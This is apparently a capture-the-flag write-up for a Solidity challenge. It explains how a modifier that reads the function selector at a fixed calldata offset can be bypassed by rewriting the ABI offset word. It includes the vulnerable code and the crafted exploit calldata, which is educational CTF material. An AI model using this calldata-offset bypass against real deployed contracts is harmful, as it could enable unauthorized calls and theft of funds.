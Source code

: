 # Calldata, calldata

As the hint suggests, the trick is to really understand `calldata` encoding, especially when a dynamic datatype is involved.

[This article helped me understand complex calldata encoding](https://r4bbit.substack.com/p/abi-encoding-and-evm-calldata)

# The hack

The `modifier` always assumes that the function selector at the 69-72 bytes will be the `selector` that will be passed in.

```solidity
 modifier onlyOff() {
        // we use a complex data type to put in memory
        bytes32[1] memory selector;
        // check that the calldata at position 68 (location of _data)
        assembly {
            calldatacopy(selector, 68, 4) // grab function selector from calldata
        }
        require(selector[0] == offSelector, "Can only call the turnOffSwitch function");
        _;
    }
```

But crucially, when encoding a complex datatype, the first 32 byte word after the selector gives an offset, for when to start reading the arguments, so to speak.

If we just pass in the selector for `switchOff` as argument for `flipSwitch()`, using `cast calldata`, we get a vanilla calldata

`cast calldata "flipSwitch(bytes memory)" 0x20606e15`

gives

`0x30c13ade0000000000000000000000000000000000000000000000000000000000000020000000000000000000000000000000000000000000000000000000000000000420606e1500000000000000000000000000000000000000000000000000000000`

Which can be divided into

```
0x30c13ade
0000000000000000000000000000000000000000000000000000000000000020
0000000000000000000000000000000000000000000000000000000000000004
20606e1500000000000000000000000000000000000000000000000000000000
```

The first element is the `flipSwitch()` selector, the second is the offset, which basically is asking to start reading after the first 32 byte word, the third is the size and the fourth the actual bytes array.

The important bit is the first 32 byte word: we could change it to shift attention to somewhere else, without changing the `switchOff()` selector's location in the calldata.

So here's the calldata I used:

```
0x30c13ade
0000000000000000000000000000000000000000000000000000000000000060
0000000000000000000000000000000000000000000000000000000000000004
20606e1500000000000000000000000000000000000000000000000000000000
0000000000000000000000000000000000000000000000000000000000000004
76227e1200000000000000000000000000000000000000000000000000000000
```

which asks the EVM to look for the arguments after a 0x60 byte offset, skipping the `switchOff()` selector and effectively passing in the `switchOn()` selector.

And in order to pass this in, a new contract was deployed which can call any contract with any calldata.
